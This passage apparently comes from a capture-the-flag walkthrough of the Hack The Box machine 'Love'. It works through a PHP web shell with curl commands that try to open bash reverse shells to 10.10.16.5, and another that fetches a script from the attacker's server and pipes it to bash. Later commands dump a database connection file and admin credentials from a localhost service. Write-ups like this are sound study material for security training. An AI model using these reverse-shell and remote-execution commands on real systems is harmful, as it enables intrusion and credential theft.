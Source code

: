 ```bash
❯ curl "http://love.htb/images/shell.php?cmd=bash%20-i%20>%26/dev/tcp/10.10.16.5/3333%200>%261"
❯ curl "http://love.htb/images/shell.php?cmd=bash%20-c%20'bash%20-i%20>%26/dev/tcp/10.10.16.5/3333%200>%261'"
```
So we can try it with the python server method:
```bashHTB#9826^(_
# Listener terminal
❯ echo "bash -i >& /dev/tcp/10.10.16.5/5555 0>&1" > Exploits/reverse_tcp
❯ sudo python3 -m http.server 80 &
[1] 379918
❯ nc -nlvp 3333
# Trigger terminal
curl "http://love.htb/images/shell.php?cmd=curl%20http://10.10.16.5/Exploits/reverse_tcp%20|%20bash"
```
But this exploit is not working, as we are trying to attack a windows machine. So we need to use the RCE exploit to spy the filesystem:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=more%20..\includes\conn.php"
<?php
        $conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }
        
?>
```
After some time, we found the credentials `phoebe:HTB#9826^(_` for the database `votesystem`. Anyway, as we saw earlier, 10.10.16.5 is not allowed to establish connections to the 3306 port, so we need a user shell to access the database.

## User Shell
Now that we achieved RCE on the machine, we can use it to enumerate services we didn't have access from outside, for example, the server allocated at `port 5000`:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=curl%20http://127.0.0.1:5000"
# ...
<div class="message-header">
  <p>Voting system Administration</p>
  <button class="delete" aria-label="delete"></button>
</div>
<div class="message-body">

<article class="message is-link">
  <div class="message-body">

<strong>Vote Admin Creds admin: @LoveIsInTheAir!!!!
</strong><br>  </div>
</article>

</div>
</article> 
# ...
```
From the victim's localhost, we can access to the http server on port 5000 and discover the creds `admin:@LoveIsInTheAir!!!!`. We could try to do the same with the mysql server, as we have credentials, but let's try to get an interactive shell if possible. With this credential we obtained the exact same access to the admin's webpage as we achieved before, but now we know its password.
